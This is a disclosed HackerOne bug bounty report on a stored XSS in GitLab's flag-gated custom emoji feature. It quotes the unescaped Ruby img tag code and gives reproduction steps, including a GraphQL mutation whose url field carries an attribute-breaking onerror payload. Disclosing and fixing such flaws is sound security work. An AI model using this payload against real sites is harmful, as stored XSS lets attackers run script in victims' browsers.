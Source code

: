 # Stored XSS in custom emoji

## Report Details
- **Report ID**: 1198517
- **URL**: https://hackerone.com/reports/1198517
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-05-15T20:12:45.437Z
- **Disclosed**: 2021-07-19T13:06:59.010Z

## Reporter
- **Username**: ooooooo_q
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
### Summary

I found Stored XSS with a feature of custom emoji.

This feature hasn't been rolled out yet and need to set feature flags in self management installation. ( https://gitlab.com/gitlab-org/gitlab/-/issues/231317 )


The problem is the code here.
https://gitlab.com/gitlab-org/gitlab/-/blob/v13.11.4-ee/lib/gitlab/emoji.rb#L43

```ruby
    def emoji_image_tag(name, src)
      "<img class='emoji' title=':#{name}:' alt=':#{name}:' src='#{src}' height='20' width='20' align='absmiddle' />"
    end

    ...

    def custom_emoji_tag(name, image_source)
      data = {
        name: name
      }

      ActionController::Base.helpers.content_tag('gl-emoji', title: name, data: data) do
        emoji_image_tag(name, image_source).html_safe
      end
    end
```

Since the `src` value of `emoji_image_tag` is not escaped, it will be XSS.
(The value of `name` is not available for XSS as validation exists.)

### Steps to reproduce

The following steps should to be reproduced in a self-managed installation of gitlab.

 1. Set feature_flag

see https://docs.gitlab.com/ee/administration/feature_flags.html

```
# gitlab-rails console
--------------------------------------------------------------------------------
 Ruby:         ruby 2.7.2p137 (2020-10-01 revision 5445e04352) [x86_64-linux]
 GitLab:       13.11.3 (b321336e443) FOSS
 GitLab Shell: 13.17.0
 PostgreSQL:   12.6
--------------------------------------------------------------------------------
Loading production environment (Rails 6.0.3.6)
irb(main):001:0> Feature.enable(:custom_emoji)
=> true
```


 2. Create group

Create a group to set the custom emoji. For example, `xss_target`.


 3. Create custom emoji

The ability to create custom emoji only exists in graphql api.

Create by sending the following query from the graphiql page of `https://localhost/-/graphql-explorer`.

```
mutation {
  createCustomEmoji(input: 
    {
      groupPath: "xss_target", 
      name:"xssreplace",
      url:"http://aaa#'><img onerror=alert(location) src=.>"
    }) {
    customEmoji {
      id
      name
      url
    }
  }
}
```

{F1302828}

 4. Create project and file

Create a project to display custom emojis and create a `README.md` with the following content.

```
:xssreplace:
```


5. View rendering results in browser

The function of custom emoji replaces the `:xssreplace:` part to become Stored XSS.

### Impact

Stored XSS is possible with gitlab with feature flags set.

### Examples

There is no example because it works only with gitlab with feature flag set.

### What is the current *bug* behavior?

Insufficient escape of `src`.

### What is the expected *correct* behavior?

Escape the value of `src`.

### Relevant logs and/or screenshots

{F1302824}

### Output of checks

GitLab.com doesn't have a feature flag set so it doesn't affect.

#### Results of GitLab environment info

```
# gitlab-rake gitlab:env:info

System information
System:
Current User:	git
Using RVM:	no
Ruby Version:	2.7.2p137
Gem Version:	3.1.4
Bundler Version:2.1.4
Rake Version:	13.0.3
Redis Version:	6.0.12
Git Version:	2.31.1
Sidekiq Version:5.2.9
Go Version:	unknown

GitLab information
Version:	13.11.3
Revision:	b321336e443
Directory:	/opt/gitlab/embedded/service/gitlab-rails
DB Adapter:	PostgreSQL
DB Version:	12.6
URL:		https://gitlab.example.com
HTTP Clone URL:	https://gitlab.example.com/some-group/some-project.git
SSH Clone URL:	git@gitlab.example.com:some-group/some-project.git
Using LDAP:	no
Using Omniauth:	yes
Omniauth Providers:

GitLab Shell
Version:	13.17.0
Repository storage paths:
- default: 	/var/opt/gitlab/git-data/repositories
GitLab Shell path:		/opt/gitlab/embedded/service/gitlab-shell
Git:		/opt/gitlab/embedded/bin/git
```

## Impact

Stored XSS is possible with gitlab with feature flags set.

## Attachments
- custom_emoji_xss.png
- graphql.png
